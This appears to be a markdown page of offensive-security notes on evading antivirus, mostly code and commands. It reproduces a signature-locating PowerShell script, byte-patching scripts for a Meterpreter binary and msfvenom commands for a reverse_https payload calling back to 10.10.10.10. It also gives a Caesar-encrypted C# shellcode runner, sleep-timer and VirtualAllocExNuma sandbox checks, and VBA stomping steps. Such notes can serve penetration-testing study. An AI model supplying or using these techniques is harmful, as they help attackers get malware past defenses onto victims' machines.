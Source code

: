 # AV software
* [ClamAV](https://www.clamav.net/)
* [Avira](https://www.avira.com/)
* TrendMicro
* McAfee
* Kaspersky
* ...

# VirusTotal alternative
[antiscan.me](https://antiscan.me)

# High level concepts
* Locating Signatures in Files and switching 'triggering' bits to 0 (and hope executable still works)
* Encoders and Encryptors. Likely detected since decoding/decrypting routines are still static and therefore detectable by signatures
* Using a custom built shellcode runner in C# or JS. Additionally encrypt the shellcode with a simple ceasars cipher to avoid detection
* Use sleep timers to detect AV's and simply return if delay is not as set
* Use non emulated API's to detect AV's and simmply return if API not available (e.g. VirtualAllocExNuma)

# Locating Signatures in Files
<details>
  <summary>Expand</summary>
Free AV products: ClamAV, Avira

We must determine the exact bytes that are triggering detection. For this we cut the binary into smaller pieces and scan them.
For this we use a PowerShell function [Find-AVSignature](http://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html):

```powershell
function Find-AVSignature {
<#
.SYNOPSIS

    Find-AVSignature

    Locates single Byte AV signatures utilizing the same method as DSplit from "class101" on heapoverflow.com

    Authors: Chris Campbell (@obscuresec) & Matt Graeber (@mattifestation)
    License: BSD 3-Clause

.DESCRIPTION

    A script to locate tiny AV signatures.

.PARAMETER Startbyte

    Specifies the first byte to begin splitting on.

.PARAMETER Endbyte

    Specifies the last byte to split on.

.PARAMETER Interval

    Specifies the interval size to split with.

.PARAMETER Path

    Specifies the path to the binary you want tested.

.PARAMETER OutPath

    Optionally specifies the directory to write the binaries to.
    
.PARAMETER Force

    Forces the script to continue without confirmation.    

.EXAMPLE

    PS C:\> Find-AVSignature -Startbyte 0 -Endbyte max -Interval 10000 -Path c:\test\exempt\nc.exe 
    PS C:\> Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run2 -Verbose
    PS C:\> Find-AVSignature -StartByte 16000 -EndByte 17000 -Interval 100 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run3 -Verbose
    PS C:\> Find-AVSignature -StartByte 16800 -EndByte 16900 -Interval 10 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run4 -Verbose
    PS C:\> Find-AVSignature -StartByte 16890 -EndByte 16900 -Interval 1 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run5 -Verbose

.NOTES

    Several of the versions of "DSplit.exe" available on the internet contain malware.

.LINK

    http://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html
    https://github.com/mattifestation/PowerSploit
    http://www.exploit-monday.com/
    http://heapoverflow.com/f0rums/project.php?issueid=34&filter=changes&page=2
#>

[CmdletBinding()] Param(
        [Parameter(Mandatory = $True)] [Int32] $StartByte,
        [Parameter(Mandatory = $True)] [String] $EndByte,
        [Parameter(Mandatory = $True)] [Int32] $Interval,
        [Parameter(Mandatory = $False)] [String] $Path = ($pwd.path),
        [Parameter(Mandatory = $False)] [String] $OutPath = ($pwd),
        [Switch] $Force = $False
    )

    #test variables
    if (!(Test-Path $Path)) {Throw "File path not found"}
    $Response = $True
    if (!(Test-Path $OutPath)) {}
        if ( $Force -or ( $Response = $psCmdlet.ShouldContinue("The `"$OutPath`" does not exist! Do you want to create the directory?",""))){new-item ($OutPath)-type directory}
    if (!$Response) {Throw "Output path not found"}
    if (!(Get-ChildItem $Path).Exists) {Throw "File not found"}
    [Int32] $FileSize = (Get-ChildItem $Path).Length
    if ($StartByte -gt ($FileSize - 1) -or $StartByte -lt 0) {Throw "StartByte range must be between 0 and $Filesize"}
    [Int32] $MaximumByte = (($FileSize) - 1)
    if ($EndByte -ceq "max") {$EndByte = $MaximumByte}
    if ($EndByte -gt $FileSize -or $EndByte -lt 0) {Throw "EndByte range must be between 0 and $Filesize"}

    #read in byte array
    [Byte[]] $FileByteArray = [System.IO.File]::ReadAllBytes($Path)

    #find the filename for the output name
    [String] $FileName = (Split-Path $Path -leaf).Split('.')[0]

    #Calculate the number of binaries
    [Int32] $ResultNumber = [Math]::Floor(($EndByte - $StartByte) / $Interval)
    if (((($EndByte - $StartByte) % $Interval)) -gt 0) {$ResultNumber = ($ResultNumber + 1)}
    
    #Prompt user to verify parameters to avoid writing binaries to the wrong directory
    $Response = $True
    if ( $Force -or ( $Response = $psCmdlet.ShouldContinue("This script will result in $ResultNumber binaries being written to `"$OutPath`"!",
             "Do you want to continue?"))){}
    if (!$Response) {Return}
    
    Write-Verbose "This script will now write $ResultNumber binaries to `"$OutPath`"." 
    [Int32] $Number = [Math]::Floor($Endbyte/$Interval)
        
        #write out the calculated number of binaries
        [Int32] $i = 0
        for ($i -eq 0; $i -lt $ResultNumber; $i++)
        {
            [Int32] $SplitByte = (($StartByte) + (($Interval) * ($i)))
            Write-Verbose "Byte 0 -> $($SplitByte)"
            [IO.File]::WriteAllBytes((Join-Path $OutPath "$($FileName)_$($SplitByte).bin"), $FileByteArray[0..($SplitByte)])
        }
        
        #Write out the final binary
        [IO.File]::WriteAllBytes((Join-Path $OutPath "$($FileName)_$($EndByte).bin"), $FileByteArray[0..($EndByte)])
        Write-Verbose "Byte 0 -> $($EndByte)"
        Write-Verbose "Files written to disk. Flushing memory."
        
        #During testing using large binaries, memory usage was excessive so lets fix that
        [System.GC]::Collect()
        Write-Verbose "Completed!"
}

```


First import it:

```powershell
Import-Module .\Find-AVSignature.ps1

```

The Interval parameter is used to specify the size of each individual segment of the file. This value is dependent on the size of the executable.
We will set each segment to 10000 bytes.

```
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```

Next run AV Scan against created folder avtest1
Let's assume the segment from 0 to 10000 is ok and the following are flagged as malicious.
Next adjust start and end bytes as well as the interval (getting smaller)

```powershell
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest2 -Verbose -Force
```
Repeat the step until you find the exact byte that triggers AV.
Set this byte to 0 with the following scripts:


PowerShell:
```powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```
Python (not tested, generated with ChatGPT):
```python
source_path = r"C:\Tools\met.exe"
destination_path = r"C:\Tools\met_mod.exe"

# Read all bytes from the source file
with open(source_path, "rb") as f:
    bytes = bytearray(f.read())

# Modify the byte at index 18867 to 0
bytes[18867] = 0

# Write the modified bytes to the destination file
with open(destination_path, "wb") as f:
    f.write(bytes)

print("File modification complete.")

```
Repeat the last step to verify that AV does not detect the segment anymore.
Afterwards, take the modified binary and repeat all over to check if there are other bytes that trigger AV.
After finding all bytes to evade detection, the file is still detected by AV. We can evade this by changing the last byte at offset 73801.
Changing it to 0x00 does not produce a clean scan, but changing it to 0xFF does. 

```powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
$bytes[18987] = 0
$bytes[73801] = 0xFF
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

</details>


# Metasploit Encoders and Encryptors

```
metasploit --list encoders
sudo msfvenomm -p ... -e x86/shikata_ga_nai -f exe -o met.exe
sudo msfvenomm -p ... -e x86/shikata_ga_nai -x notepad.exe -f exe -o met.exe

metasploit --list encrypt
sudo msfvenom -p ... --encrypt aes256 --encrypt-key asdfasdfasdf -f exe -o met.exe
```

Likely still detected since the decoding and decrypting routines are static and known by vendors.

# Custom built encrypted C# shellcode runner 

See also 09_Windows.md for basic C# shellcode runner

<details>
  <summary>Expand</summary>

We will use a simple caesar cipher with a substitution key of 2 for 'encryption'.
Create helper application (Console App (.Net Framework)) that can encrypt the shellcode.

Generate shellcode:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=3141 -f csharp
```     

Helper Application Code:
```csharp
using System;
using System.Collections.Generic;
using System.Linqt;
using System.Text;
using System.Threading.Tasks;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[760] { 0xfc, 0x48, 0x83, ...}
            byte[] encoded = new byte[buf.Length];

            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }
						
						Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```

Generate shellcode:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=3141 -f csharp
```     

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
            uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
                  uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
            UInt32 dwMilliseconds);
        
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {0xfc,0x48,0x83,0xe4...}
						
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }
            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
</details>

# Sleep Timers
One of the oldest behavior analysis bypass techniques revolves around time delays. If an application is running in a simulator and the heuristics engine encounters a pause or sleep instruction, it will "fast forward" through the delay to the point that the application resumes its actions. This avoids a potentially long wait time during a heuristics scan.

Use the following snipped in the encrypted C# shellcode runner from the previous section

```csharp
...
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
        
static void Main(string[] args)
{
    DateTime t1 = DateTime.Now;
    Sleep(2000);
    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
    if(t2 < 1.5)
    {
        return;
    }
...

```

# Non-emulated APIs
Antivirus emulator engines only simulate the execution of most common executable file formats and functions. Knowing this, we can attempt to bypass detection with a function (typically a Win32 API) that is either incorrectly emulated or is not emulated at all.

There is no "master list" for obscure APIs, but browsing APIs on MSDN and reading about their intended purposes may provide clues as to how common they may be.
We will use VirtualAllocExNuma as an example. Sadly, pinvoke.net does not contain an entry for VirtualAllocExNuma, but we can compare the C type function prototype of VirtualAllocEx3 and VirtualAllocExNuma4.

<details>
  <summary>Expand</summary>

The function prototypes of VirtualAllocEx and VirtualAllocExNuma are almost the same, there is only the additional parameter 'nndPreferred' (DWORD). so we add the following import statement to our code:

```csharp
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, 
    uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

[DllImport("kernel32.dll")]
static extern IntPtr GetCurrentProcess();
```

Last we add the following if statement (simimlar to sleep statement in previous section) so the code just gracefully exits in case the API is not emulated in the simulated environment (sandbox)

```csharp
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
if(mem == null)
{
    return;
}

```

</details>

# Stomping on Microsoft Word
See also 09_Windows.md (VBA Stomping)

The key concept here is called PerformanceCache,which is a structure present in both _VBA_PROJECT and NewMacros.Inspecting the documentation reveals that this signifies a cachedand compiled version of the VBA textual code, known as P-code.The P-code is a compiled version of the VBA textual codefor the specific version of Microsoft Office and VBA it was created on.To explain it differently,if a Microsoft Word document is opened on a different computerthat uses the same version and edition of Microsoft Word,the cached pre-compiled P-code is executed,avoiding the translation of the textual VBA codeby the VBA interpreter.Using [FlexHEX](http://www.heaventools.com/flexhex-hex-editor.htm), we can view the P-code inside the NewMacros file.In the right-side pane, we notice the Win32 APInames inside the compiled P-code,while the rest of the code is in a pure binary format.If the document is opened on a different versionor edition of Microsoft Word,the P-code is ignoredand the textual version of the VBA is used instead.

To remove the macro with FlexHex, search for "Attribute VB_Name" and delete it plus everything afterwards. "Edit" => "Insert Zero Block"


